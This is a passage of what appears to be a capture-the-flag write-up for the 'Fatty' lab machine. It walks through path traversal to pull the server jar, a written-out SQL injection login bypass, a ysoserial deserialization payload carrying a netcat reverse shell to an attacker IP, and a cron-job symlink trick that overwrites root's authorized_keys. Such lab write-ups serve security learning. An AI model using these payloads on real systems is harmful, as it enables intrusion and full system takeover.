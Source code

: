 8. **Exploiting LFI Vulnerability**
   - **Technique**: Path traversal to bypass server-side filtering and download server-side files.
   - **Step**:
     - Used the `Invoker.showFiles()` method to list files in the parent directory (`../`) and identified `fatty-server.jar` and `start.sh`.
     - Modified the exploit to call `Invoker.open("../", "start.sh")` to retrieve the `start.sh` script, revealing Docker usage and server startup details.
     - Attempted to retrieve `fatty-server.jar` using `Invoker.open("../", "fatty-server.jar")`, but the binary file was corrupted due to string-based handling.
     - Modified the `Invoker` class to create a `binaryOpen()` method that returns a byte array instead of a string.
     - Unsealed the `fatty-client.jar` by editing `META-INF/MANIFEST.MF` to remove the `Sealed: true` attribute and deleting signature files to allow custom class overriding.
     - Successfully downloaded `fatty-server.jar` using the modified `binaryOpen()` and wrote it to disk using `FileOutputStream`.

9. **Decompiling and Analyzing the Server Code**
   - **Technique**: Reverse engineering the server code to identify vulnerabilities.
   - **Step**:
     - Decompiled `fatty-server.jar` using `java -jar cfr.jar --outputpath ./server fatty-server.jar`.
     - Analyzed the server code, identifying:
       - A hardcoded MySQL password (`secure_database_powered_by_...`) for the `qtc` user.
       - A SQL query in `JavaDatabase.checkLogin()` vulnerable to SQL injection due to unsanitized user input.
       - A deserialization vulnerability in the `changePassword()` function, which accepts serialized user input and is restricted to admin roles.

10. **SQL Injection to Gain Admin Role**
    - **Technique**: SQL injection to bypass authentication and elevate privileges.
    - **Step**:
      - Modified the `User` object in `Exploit.java` to set `hashed=false`, ensuring the username is passed unhashed to the server.
      - Crafted a SQL injection payload: `qtc' UNION SELECT 1, 'pleasesubscribe', 'root@ipsec.rocks', 'ipsec', 'admin' --`.
      - Successfully logged in as an admin, confirmed by `Connection.getRoleName()` returning `admin`.
      - Tested admin privileges by running `Invoker.ipconfig()`, which now executed successfully.

11. **Java Deserialization Exploit**
    - **Technique**: Crafting a malicious serialized payload using `ysoserial` to achieve remote code execution.
    - **Step**:
      - Created a new `exploitChangePassword()` method in the `Invoker` class to send a custom payload to the `changePassword()` function.
      - Used `ysoserial` to generate a deserialization payload: `java -jar ysoserial.jar CommonsCollections5 "nc [ATTACKER-IP] 9001 -e /bin/sh" | base64 -w0`.
      - Sent the payload via `Invoker.exploitChangePassword()`, establishing a reverse shell to the attacker's machine (`nc -lvnp 9001`).
      - Confirmed the shell was running in a Docker container with limited tools (no `bash`, `python`, or `script`).

12. **Privilege Escalation via Cron Job**
    - **Technique**: Exploiting a cron job to overwrite the root SSH `authorized_keys` file.
    - **Step**:
      - Discovered a cron job (`logpolar.sh`) running every minute, using `scp` to copy `opt/fatty/logs.tar` to a remote server.
      - Used `pspy64` to monitor processes and confirm the cron job behavior.
      - Created a symbolic link exploit:
        - Created a directory `/dev/shm/exploit` and linked `logs.tar` to `/root/.ssh/authorized_keys` (`ln -s /root/.ssh/authorized_keys logs.tar`).
        - Created a tar archive containing the symbolic link: `tar cvf logs.tar -C exploit .`.
        - Copied the crafted `logs.tar` to `/opt/fatty/logs.tar`.
      - Generated an SSH key pair (`ssh-keygen -f qtc`) and appended the public key to `/root/.ssh/authorized_keys`.
      - Waited for the cron job to overwrite `authorized_keys` with the malicious `logs.tar`, allowing SSH access as root (`ssh -i qtc root@[TARGET-IP]`).